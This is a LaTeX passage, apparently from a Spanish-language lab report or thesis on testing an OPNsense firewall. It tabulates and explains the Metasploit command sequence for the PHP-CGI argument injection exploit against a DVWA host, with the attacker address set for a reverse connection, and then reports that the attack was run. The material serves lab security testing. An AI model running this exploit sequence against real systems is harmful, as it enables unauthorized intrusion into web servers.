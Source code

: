 \begin{table}[H]
	\centering
	\caption{Descripción de parámetros utilizados en Metasploit}\label{tab:parametros_metasploit}
	\renewcommand{\arraystretch}{1.4}
	\begin{tabular}{|p{4.9cm}|p{8.5cm}|}
	\hline
	\rowcolor{gray!25}
	\centering \textbf{Parámetro} & \centering \textbf{Descripción} \tabularnewline
	\hline

	\centering \texttt{use exploit/multi/http/php\_cgi\_arg\_injection} &
	Carga el módulo de explotación almacenado en la librería de Metasploit, el cual aprovecha una vulnerabilidad en la 
	ejecución de PHP-CGI que permite inyectar argumentos mediante peticiones HTTP especialmente construidas.
	\tabularnewline
	\hline

	\centering \texttt{set RHOSTS 192.168.1.70} &
	Define la dirección IP de la máquina objetivo donde se encuentra desplegado el servicio web que será objeto de la 
	explotación.
	\tabularnewline
	\hline

	\centering \texttt{set RPORT 80} &
	Especifica el puerto remoto de destino (80), correspondiente al servicio web expuesto y permitido por las políticas de 
	filtrado del firewall del laboratorio.
	\tabularnewline
	\hline

	\centering \texttt{set TARGETURI /DVWA} &
	Define la ruta de la aplicación web en el servidor objetivo, indicando al módulo de explotación la ubicación donde debe 
	buscar el recurso potencialmente vulnerable.
	\tabularnewline
	\hline

	\centering \texttt{set LHOST 192.168.1.57} &
	Define la dirección IP de la máquina atacante, utilizada por el objetivo comprometido para establecer la conexión de 
	retorno hacia el atacante.
	\tabularnewline
	\hline

	\centering \texttt{run} &
	Ejecuta las instrucciones anteriormente realizadas.
	\tabularnewline
	\hline
	\end{tabular}
\end{table}

\subsubsection{Ejecución de la prueba}
\noindent

Esta prueba se ejecutó desde la máquina atacante mediante el uso de Metasploit Framework contra la dirección IP virtual 
\texttt{192.168.1.70}, expuesta en la interfaz WAN del firewall OPNsense, se puede evidanciar en la Figura~\ref{fig26}. 
Para ello, se empleó la secuencia de comandos descrita en el apartado anterior, replicando el comportamiento de un atacante 
que busca explotar de forma automatizada una vulnerabilidad presente en una aplicación web accesible desde una red externa.

